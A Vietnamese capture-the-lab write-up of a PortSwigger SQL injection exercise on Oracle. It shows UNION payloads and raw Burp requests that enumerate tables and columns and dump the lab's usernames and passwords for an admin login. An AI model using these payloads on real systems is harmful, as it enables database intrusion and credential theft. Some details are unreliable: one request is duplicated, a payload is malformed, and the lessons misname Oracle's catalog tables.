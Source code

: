# Write-up: SQL injection attack, listing the database contents on Oracle

### Tổng quan
Ghi lại quá trình khai thác SQLi để lấy thông tin tài khoản và đăng nhập dưới tên `administrator` để hoàn thành lab. 

### Mục tiêu
Đăng nhập vào hệ thống dưới tên `administrator`

### Công cụ
- Burpsuite Community
- Firefox Browser

### Các bước thực hiện
1. **Thu thập thông tin (Recon)**
- Kiểm tra tham số `category` trong URL (`filter?category=Gifts`) và thêm dấu `'` để kích hoạt lỗi SQL:
  - **Kết quả**: xuất hiện lỗi SQL, xác nhận lỗ hổng
    ![lỗi](./images/error.png)

- Xác định số cột trả về:
    ```
    'ORDER BY 3--
    ```
    - **Kết quả**: `internal error server`, xác định có 2 cột
        ![cột](./images/column.png)

- Xác định kiểu dữ liệu trả về:
    ```
    'UNION SELECT 'aaa', 'bbb' FROM all_tables--
    ```
    - **Kết quả**: kiểu dữ liệu trả về là string
    ![kiểu](./images/string.png)

- Xác định kiểu DB mà hệ thống sử dụng
    ```
    'UNION SELECT NULL, banner FROM v$version--
    ```
    - **Kết quả**: Oracle
    ![banner](./images/banner.png)

2. **Tạo Payload**
- Tạo payload kiểu tấn công UNION lấy tên bảng trong DB `(1)`
    ```
    'UNION+SELECT+table_name,NULL+FROM+user_tables--
    ```

- Tạo payload kiểu tấn công UNION lấy tên cột trong bảng `(2)`
    ```
    'UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'table_name_here'--
    ```
EMAIL, PASSWORD_KTNFZD, USERNAME_TJOSZG

- Tạo payload kiểu tấn công UNION lấy dữ liệu trong cột `(3)`
    ```
    'UNION SELECT 'user', 'password' FROM 'table_name'--
    ```

3. **Khai thác (Exploitation)**
- Gửi payload `(1)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_LWJPOK'-- HTTP/2
    ```
    ![bảng](./images/tb_user.png)
    - **Kết quả**: lấy được tên bảng `USERS_LWJPOK`

- Gửi payload `(2)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+%3d+'USERS_LWJPOK'-- HTTP/2
    ```
    ![tên cột](./images/column_name.png)
    - **Kết quả**: Lấy được tên cột `PASSWORD_KTNFZD`, `USERNAME_TJOSZG`

- Gửi payload `(3)` qua Burp Repeater
    ```
    GET /filter?category=Gifts'UNION+SELECT+USERNAME_TJOSZG,+PASSWORD_KTNFZD+FROM+USERS_LWJPOK-- HTTP/2
    ```
    ![data](./images/data.png)
    - **Kết quả**: Lấy được thông tin các user
        `administrator`:`s9l5mz4ooubuuwf2rl4z`
        `carlos`:`qov137htdjxs9wmmfubk`
        `wiener`:`sgkuvevojngtas6f6ri4`

- Login vào tài khoản `administrator` và hoàn thành lab
    ![success](./images/login_success.png)

### Bài học rút ra
- Nâng cao kĩ năng UNION để trích xuất dữ liệu đa cột và lấy thông tin phiên bản.
- Hiểu cách sử dụng bảng information_schema trong Oracle.

### Tài liệu tham khảo
- PortSwigger: SQL Injection cheat sheet

### Kết luận
Lab này giúp tôi hoàn thiện kỹ năng SQL injection và sử dụng Burp Suite. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger 

*Viết bởi Toàn Lương, Tháng 5/2025*.